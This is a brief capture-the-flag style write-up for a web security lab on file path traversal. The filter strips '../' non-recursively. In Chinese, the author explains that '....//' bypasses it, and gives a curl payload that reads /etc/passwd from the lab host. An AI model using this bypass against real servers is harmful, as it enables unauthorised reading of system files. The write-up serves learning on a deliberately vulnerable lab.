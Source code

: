 # Lab: File path traversal, traversal sequences stripped non-recursively

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file. 

## LFI
* 跟前幾題差不多，這一題說他會把 ../ 過濾掉，所以說用 ....// 就可以 bypass 了
```
payload = curl https://ac001f791ee670f2c05951a400970086.web-security-academy.net/image\?filename\=....//....//....//....//....//....//....//....//etc/passwd
```